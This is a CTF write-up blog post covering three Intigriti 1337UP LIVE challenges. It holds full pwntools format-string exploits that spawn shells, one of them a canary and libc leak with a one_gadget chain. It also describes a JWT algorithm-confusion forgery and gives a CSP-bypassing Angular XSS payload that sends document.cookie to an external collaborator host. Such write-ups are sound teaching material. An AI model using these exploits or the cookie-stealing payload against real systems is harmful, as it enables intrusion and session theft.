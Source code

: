 ```yaml
---
title: 'Intigriti 1337UP LIVE CTF'
description: My write-ups for the Intigriti 1337UP LIVE, finished in 1st place with team WreckTheLine
layout: "post.ejs"
permalink: "/intigriti-1337up-live/"
date: 2022-03-14T00:00:00Z
---
```


We participated in the Intigriti 1337UP LIVE CTF as team WreckTheLine, in the end our team was formed only by the web players in our team because of the team size limit. 

We managed to get first place! [I even got a certificate to prove that.](/assets/images/posts/intigritiadragos.png)

![Intigriti1337UPLIVEResult](/assets/images/posts/intigriti1337uplivectf.png)

I solved a lot of challenges, but some were very easy so I'm not going to write about them.

Writeups:
* [cake - pwn](#cake)
* [bird - pwn](#bird)
* [ContactAlex - web](#contactalex)

<a name="cake"></a>
# cake - pwn

Format string bug + RWX stack. This is a nice case where we can use pwntools' FmtStr in order to quickly solve the challenge.

```python
from pwn import *
import time

context.clear(arch = 'amd64')

def exec_fmt(payload):
    p = process('./cake')
    p.sendline(b'2')
    p.sendline(payload)
    p.sendline(b'3')
    p.sendline(b'1')
    p.sendline(b'3')
    p.sendline(b'1')
    p.sendline(b'3')
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

#p = process('./cake')
p = remote('cake.ctf.intigriti.io', 9999)

payload = fmtstr_payload(offset, {0x602018: 0x400A33})

open('payload', 'wb').write(b'2\n'+payload+b'\n3\n')

p.sendline('2')
p.sendline(payload)
p.sendline('3')

p.sendline('2')

#start = 71
#p.sendline(b' '.join(b'%' + str(i).encode() + b'$p' for i in range(start, start + 10)))

# Leak stack value
p.sendline(b'%70$p')
p.sendline('3')

p.recvuntil(b'0x')
r = p.recvline()
stack_addr = int(r,16)

shellcode = asm(shellcraft.sh())

for i in range(0, len(shellcode), 4):
    payload = fmtstr_payload(offset, {stack_addr+i: shellcode[i:i+4]})

    p.sendline('2')
    p.sendline(payload)
    p.sendline('3')


payload = fmtstr_payload(offset, {0x602018: stack_addr})
p.sendline('2')
p.sendline(payload)
# p.sendline('3')

p.interactive()
```

<a name="bird"></a>
# bird - pwn

Simple FSB to leak the stack cookie and libc, then use one_gadget to get a shell

```python
from pwn import *
import time

#sh = process('./bird')
#context.terminal = ['tmux','splitw','-h']

sh = remote('bird.ctf.intigriti.io', 7777)

payload = b'c56500c7ab26a5100d4672cf18835690c56500c7ab26a5100d4672cf18835690 %63$p %59$p'

sh.sendline(payload)

first_leak = sh.recvuntil(b'Did you hear the bird').split(b'c56500c7ab26a5100d4672cf18835690c56500c7ab26a5100d4672cf18835690 ')[1]

libc_start_main = int(first_leak.split(b' ')[0][2:], 16)
stack_cookie = int(first_leak.split(b' ')[1].split(b'\n')[0][2:], 16)

print(hex(libc_start_main))
print(hex(stack_cookie))

main_offset = 0x21BF7

one_gadget = 0x4f432

libc_base = libc_start_main - main_offset

print(hex(libc_base))

og = libc_base + one_gadget

payload = b'A' * 88 + p64(stack_cookie) + p64(0x602070) + p64(og) + b'\x00' * 120

sh.sendline(payload)

"""
gdb.attach(sh, '''
''')
"""

sh.interactive()
```

<a name="contactalex"></a>
# ContactAlex - web

First we need to craft a JWT cookie that has the username Alex. As it turns out the source code is vulnerable to this: 

[https://github.com/silentsignal/rsa_sign2n/tree/release/CVE-2016-10555](https://github.com/silentsignal/rsa_sign2n/tree/release/CVE-2016-10555)

So we just get 2 JWTs which are generated by the application and then we can retrieve the Public Key. With that we can trick the JWT parser to use HS256 instead of RS256 and it will use the public key as the key. With [https://token.dev/](https://token.dev/) we can quickly forge a JWT.

Next we have XSS, which should be easy, but the CSP made this harder.

```
Content-Security-Policy: default-src 'self'; img-src 'self' data:; style-src 'nonce-5eccb9953787c4de8452048da55d8430'; font-src https://fonts.googleapis.com/ https://fonts.gstatic.com/; object-src 'none'; base-uri 'none'; script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/;
```

As it turns out, you can bypass CSP if https://cdnjs.cloudflare.com is whitelisted. We can then use Angular in order to get XSS.

Final payload:
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/..%2f..%2fangular.js/1.6.0/angular.js" /></script>

<body ng-app ng-csp>

<input autofocus ng-focus="$event.path|orderBy:'top.location.href=&#x22;//otlv0l5ql6fm6m1a6lz40uact3zunj.burpcollaborator.net/&#x22;+document.cookie'">

</body>
```